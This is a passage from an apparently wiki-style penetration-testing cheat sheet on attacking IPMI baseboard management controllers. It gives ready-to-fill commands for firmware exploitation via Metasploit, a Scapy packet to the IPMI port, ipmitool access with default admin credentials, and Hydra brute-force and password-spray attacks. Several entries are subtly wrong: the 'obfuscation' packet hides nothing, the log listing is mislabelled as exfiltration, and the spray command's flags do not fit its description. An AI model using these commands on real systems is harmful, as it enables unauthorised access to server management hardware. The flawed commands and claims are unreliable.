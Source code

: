 ### Privilege Escalation

#### Exploiting Vulnerable Firmware

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/linux/ipmi/ipmi_rce
    ```
* **Description:** Targets vulnerabilities in the BMC firmware to gain elevated privileges on the system.

### Defense Evasion

#### Obfuscating IPMI Traffic

*   **Tool:** \[\[Custom Scripts]], \[\[Scapy]]

    ```python
    from scapy.all import *
    packet = IP(dst="<target_ip>")/UDP(dport=623)/Raw(load="obfuscate")
    send(packet)
    ```
* **Description:** Obfuscates IPMI traffic to avoid detection by network security devices.

### Data Exfiltration

#### Exfiltration via IPMI Logs

*   **Tool:** \[\[IPMITool]]

    ```bash
    ipmitool -I lanplus -H <target_ip> -U admin -P password sel list > exfil.log
    ```
* **Description:** Exfiltrates data by hiding it within IPMI logs and retrieving them remotely.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s <target_port> -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra <protocol>://<target_ip> -s <target_port> -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

